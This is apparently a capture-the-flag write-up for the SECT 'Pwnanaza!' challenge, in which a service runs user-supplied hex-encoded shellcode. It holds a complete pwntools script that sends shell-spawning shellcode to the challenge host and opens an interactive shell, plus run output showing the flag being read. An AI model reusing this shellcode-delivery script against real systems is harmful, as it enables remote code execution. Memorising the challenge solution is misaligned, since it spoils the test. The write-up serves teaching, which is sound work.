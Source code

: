 **Pwnanaza! - Pwn (100)**

	We have captured three androids. Use them to practice your pwning.

	nc pwn2.sect.ctf.rocks 3000
	nc pwn2.sect.ctf.rocks 3001
	nc pwn2.sect.ctf.rocks 3002
[pwnanaza.tar.gz](https://www.dropbox.com/s/9ih9mgjrirf6can/pwnanaza.tar.gz?dl=1)


	Solves: 26

	Author: @likvidera


The file contains the three binaries *pwn_x86*, *pwn_x64* and *pwn_arm32*
which are the binaries you interact with when connecting to the ports.

No reverse engineering is needed, just do what the binary tells you:

	./pwn_x86
	[*] Intel-x86 Module
	[!] Enter your hex-encoded shellcode:

So it wants a *hex-encoded* shellcode. The easiest way to send
shellcode to a port is with [pwntools](https://docs.pwntools.com/en/stable/).

Pwntools has a function **shellcraft.sh()** that generates assembly code
for a shellcode that gives a shell. To actually get the binary
shellcode assemble it with the **asm()** function from pwntools. Use the
**context()** function to specify architecture and OS.

Now it told us to give it hex-encoded shellcode, so use the **enhex()**
function on each byte in the shellcode and send the result. If
succesful the **interactive()** function should let you interact with the shell.


```python
from pwn import *

context(arch = 'i386', os = 'linux')

host = 'pwn2.sect.ctf.rocks'
port = 3000

conn = remote(host, port)
lines = conn.recvuntil('shellcode:')
print lines

asmshellcode = shellcraft.sh()
shellcode = asm(asmshellcode)
s = ''
for b in shellcode:
    s += enhex(b)

conn.send(s + '\r\n')

conn.interactive()
conn.close()
```

And run it:

	$ python pwn.py
	[+] Opening connection to pwn2.sect.ctf.rocks on port 3000: Done
	[*] Intel-x86 Module
	[!] Enter your hex-encoded shellcode:
	[+] Running your shellcode!

	[*] Switching to interactive mode
	$ ls
	flag
	pwn_x86
	$ cat flag
	SECT{f0LL
	$  

That gives the first third of the flag. Repeat for x64, just replace
the port number and replace *arch = 'i386'* with *arch = 'amd64'*. Lastly arm32 wants
**context(arch = 'arm', bits = 32, os = 'linux')**.

Pwntools really is the shit for these kind of challs.
